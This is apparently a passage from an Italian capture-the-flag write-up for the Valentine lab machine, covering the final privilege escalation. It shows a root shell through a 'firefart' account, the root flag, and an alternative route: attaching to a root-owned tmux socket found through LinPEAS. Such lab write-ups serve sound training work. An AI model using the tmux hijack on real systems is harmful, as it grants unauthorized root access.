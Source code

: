 ```bash
hype@Valentine:~$ 
hype@Valentine:~$ su firefart 
Password: 
firefart@Valentine:/home/hype# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@Valentine:/home/hype#         
```

Possiamo leggere la flag locata in /root 
```bash
firefart@Valentine:~# cat root.txt 
9965fd6b8df7b93fcea180ee1b8f64b2
```

## PRIVESC ALTERNATIVA 

Scaricando LinEPas e esegundolo tra i dati interessanti che troviamo ci sono questi 
```bash
[-] Location and contents (if accessible) of .bash_history file(s):
/home/hype/.bash_history

exit
exot
exit
ls -la
cd /
ls -la
cd .devs
ls -la
tmux -L dev_sess 
tmux a -t dev_sess 
tmux --help
tmux -S /.devs/dev_sess 
exit
pwd
exit
```

Vediamo che c'e una sessione di [[Tmux]] aperte se gira com root possiamo attacarci ad essa con il seguente comando 
```
hype@Valentine:~$ tmux -S /.devs/dev_sess
```

Si aprirà una sessione di tmux con massimi privilegi
```bash

root@Valentine:/home/hype# id
uid=0(root) gid=0(root) groups=0(root)
root@Valentine:/home/hype# 
```

# LESSION LEARNED
